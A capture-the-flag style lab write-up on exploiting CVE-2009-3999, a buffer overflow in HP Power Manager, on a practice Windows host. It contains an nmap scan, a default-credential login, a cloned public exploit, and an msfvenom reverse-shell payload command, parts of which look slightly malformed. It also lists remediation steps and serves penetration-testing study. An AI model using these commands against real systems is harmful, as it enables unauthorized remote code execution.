









| Box   | IP Address     | OS      | Difficulty | Status | Notes            |
| ----- | -------------- | ------- | ---------- | ------ | ---------------- |
| Kevin | 192.168.136.45 | Windows | Easy       | Rooted | HP Power Manager |

# Vulnerability 
**Name**: CVE-2009-3999
**Versions affected**: HP Power Manager versions before 4.2.10
**Note:** HP Power Manager Buffer Overflow
[Rapid7](https://www.rapid7.com/db/vulnerabilities/cve-2009-3999/)
## Description
[NIST](https://nvd.nist.gov/vuln/detail/CVE-2009-3999?utm_source=chatgpt.com)

**CVE-2009-3999** is a **stack-based buffer overflow** in **HP Power Manager versions before 4.2.10**. A remote attacker can send an excessively long `fileName` parameter to the `goform/formExportDataLogs` endpoint, potentially causing the service to crash or allowing **arbitrary code execution**. NVD gives it a **CVSS v2 score of 10.0 (High)**.

### Remediation
- **Upgrade HP Power Manager** to **version 4.2.10 or later**.
- **Restrict access** to the Power Manager web interface to trusted administrators or management hosts only.
- **Use firewall rules / network segmentation** to prevent untrusted systems from reaching the vulnerable service.
- **Disable the service** if it is not needed.
- **Monitor for suspicious requests or crashes** involving the affected web endpoint.
----------

# Information Gathering

## Scan

``` shell
nmap -sV -sC 192.168.136.45    
```

``` shell
PORT      STATE SERVICE      VERSION
80/tcp    open  http         GoAhead WebServer
| http-title: HP Power Manager
|_Requested resource was http://192.168.136.45/index.asp
|_http-server-header: GoAhead-Webs
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Ultimate N 7600 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
```

- Quickest and first thing to enumerate would be port 80.
## Port 80



- We don't have any credentials, so easiest thing to do is try **default creds**

``` shell
#credentials
admin
admin
```




- I start to snoop around click on the r`emote agent not connected`, looks interesting



- Looking around more for a version number and find this:




# Exploit

- When `searching HP Power Manager 4.2 Exploit` I found these two links
[HP Power Manager 4-2 Exploit Python3 port - GItHub](https://github.com/CountablyInfinite/HP-Power-Manager-Buffer-Overflow-Python3)
[Original Exploit python2](https://github.com/Muhammd/HP-Power-Manager)

- it looks like there is a **critical** vulnerability here, of type `buffer overflow`
- A programmer was kind enough to port the python 2 exploit to python 3
- *note* This is also a module in Metasploit aka msfconsole, but I wanted to stay away from metasploit since it can only be used sparingly on the exam PEN-200.
## Download and learn


- Clone the repo
``` shell
# git command
git clone https://github.com/CountablyInfinite/HP-Power-Manager-Buffer-Overflow-Python3.git

```

``` shell
nano exploit.py
```

- Open the exploit code with nano to check out the README so I can get a better idea of how to use the exploit



## Crafting the exploit
- The README tells us to:

` replace the shellcode with our own `

- There is a msfvenom command in the code, so we copy the code and execute it locally. 
``` shell
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444  EXITFUNC=thread -b '\x00\x1a\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5' x86/alpha_mixed --platform windows -f python
```



- I go ahead and replace the placeholder in the script with bytes crafted for me by msfvenom
- And run the script 

``` shell
python3 hp_pm_exploit_p3.py 192.168.136.45 80 4444
# Run the script, with the target IP, target Port, and then our listener port
```
### error


- Python is throwing an error because it cant change strings into bytes.. after some googling I remove the 'b' at the beginning of each line:



# Rooted and tooted


Boom. It worked.

[Flag Redacted]
